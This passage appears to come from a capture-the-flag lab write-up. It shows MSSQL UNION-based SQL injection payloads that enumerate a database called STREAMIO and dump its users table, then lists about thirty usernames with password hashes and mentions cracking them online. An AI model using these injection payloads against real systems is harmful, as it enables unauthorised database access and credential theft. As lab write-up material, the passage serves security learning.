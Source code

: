 Okay, it's MSSQL. Now, after a few custom request, we will be able to gather some password hashes. Here we used the following ones:

```sql
/* Get the DB name (STREAMIO) */
1337' UNION SELECT 1,(select DB_NAME()),3,4,5,6-- -
/* Get the tables (movies,users) */
1337' UNION SELECT 1, (SELECT STRING_AGG(name, ',') name FROM STREAMIO..sysobjects WHERE xtype= 'U'),3,4,5,6-- -
/* Get the columns (password, username) */
1337' UNION SELECT 1,name,3,4,5,6 FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'users')-- -
/* Dump the content */
1337' UNION SELECT 1,CONCAT(username, ' ', password),3,4,5,6 FROM users-- -
```

We obtained the following output:

```text
admin 665a50ac9eaa781e4f7f04199db97a11
Alexendra 1c2b3d8270321140e5153f6637d3ee53
Austin 0049ac57646627b8d7aeaccf8b6a936f
Barbra 3961548825e3e21df5646cafe11c6c76
Barry 54c88b2dbd7b1a84012fabc1a4c73415
Baxter 22ee218331afd081b0dcd8115284bae3
Bruno 2a4e2cf22dd8fcb45adcb91be1e22ae8
Carmon 35394484d89fcfdb3c5e447fe749d213
Clara ef8f3d30a856cf166fb8215aca93e9ff
Diablo ec33265e5fc8c2f1b0c137bb7b3632b5
Garfield 8097cedd612cc37c29db152b6e9edbd3
Gloria 0cfaaaafb559f081df2befbe66686de0
James c660060492d9edcaa8332d89c99c9239
Juliette 6dcd87740abb64edfa36d170f0d5450d
Lauren 08344b85b329d7efd611b7a7743e8a09
Lenord ee0b8a0937abd60c2882eacb2f8dc49f
Lucifer 7df45a9e3de3863807c026ba48e55fb3
Michelle b83439b16f844bd6ffe35c02fe21b3c0
Oliver fd78db29173a5cf701bd69027cb9bf6b
Robert f03b910e2bd0313a23fdd7575f34a694
Robin dc332fb5576e9631c9dae83f194f8e70
Sabrina f87d3c0d6c8fd686aacc6627f1f493a5
Samantha 083ffae904143c4796e464dac33c1f7d
Stan 384463526d288edcc95fc3701e523bc7
Thane 3577c47eb1e12c8ba021611e1280753c
Theodore 925e5408ecb67aea449373d668b7359e
Victor bf55e15b119860a6e6b5a164377da719
Victoria b22abb47a02b52d5dfa27fb0b534f693
William d62be0dc82071bccc1322d64ec5b6c51
yoshihide b779ba15cedfd22a023c4d8bcf5f2332
```

Using a well-known website, [https://crackstation.net](https://crackstation.net), we obtained the following cleartext passwords.
